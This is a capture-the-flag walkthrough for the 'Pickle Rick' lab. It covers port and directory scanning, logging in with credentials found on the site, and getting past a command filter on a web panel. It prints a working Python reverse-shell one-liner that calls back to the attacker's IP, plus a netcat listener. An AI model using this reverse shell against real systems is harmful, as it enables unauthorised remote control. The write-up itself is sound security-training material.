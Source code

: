 ```yaml
---
description: A Rick and Morty CTF. Help turn Rick back into a human!
---
```


# Pickle Rick

### Machine IP: 10.10.110.178&#x20;

### Enumeration:

1. **Nmap scan**:\
   `sudo nmap -sC -sV -T4 10.10.110.178`

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

2. **Gobuster scan:**\
   ****\
   ****`gobuster dir -u http://10.10.110.178 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 100 -q -x php,sh,txt,cgi,html,js,css,py -o scans/gobuster-small.txt`

<figure><img src="../.gitbook/assets/gobuster.png" alt=""><figcaption><p>gobuster scan</p></figcaption></figure>

From this scan we get a few paths. Lets check them.\
When we go to: [http://10.10.110.178/robots.txt](http://10.10.110.178/robots.txt), we get a text string: Wubbalubbadubdub\
In [http://10.10.110.178/login.php](http://10.10.110.178/login.php) we get a login page.

3. **Check the website:**\
   ****As there was a port 80 open in our nmap scan, lets see the website!

<figure><img src="../.gitbook/assets/website (1).png" alt=""><figcaption><p>picklerick website</p></figcaption></figure>

<figure><img src="../.gitbook/assets/website-source.png" alt=""><figcaption><p>source code of website</p></figcaption></figure>

From the website source we get a username. We can try using it with the string we got from robots.txt file as the password. Lets try it in the login.php page.

We get a successful login with these credentials!

<figure><img src="../.gitbook/assets/login.png" alt=""><figcaption><p>successful login</p></figcaption></figure>

After login we get a text field for entering commands. If we try to execute any commands, they will get executed by the machine. \
We can capture this request in Burp Suite and try running commands.

### Burp Suit:

After capturing the request in Burp Proxy, we can send them to Repeater and send our custom requests.

<figure><img src="../.gitbook/assets/burp1.png" alt=""><figcaption></figcaption></figure>

We will find that some commands have been disabled, like cat, nano, vim etc. After a few tries, we can see that `less` is not disabled. So we can use it to get our **Sup3rS3cretPickl3Ingred.txt**

### Reverse-Shell:

Now that we can execute commands, lets try to get a shell. We can confirm python is installed on the system with: `which python3`\
``**Note**: If you try `which python` we wont get a response as only python3 is installed.

As python3 is installed, we can use a reverse-shell python script from [PentestMonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) to gain the shell.

`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.115.192",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`\
``\
``In attack machine: `nc -lvnp 1234`

With this we will get a reverse-shell.&#x20;

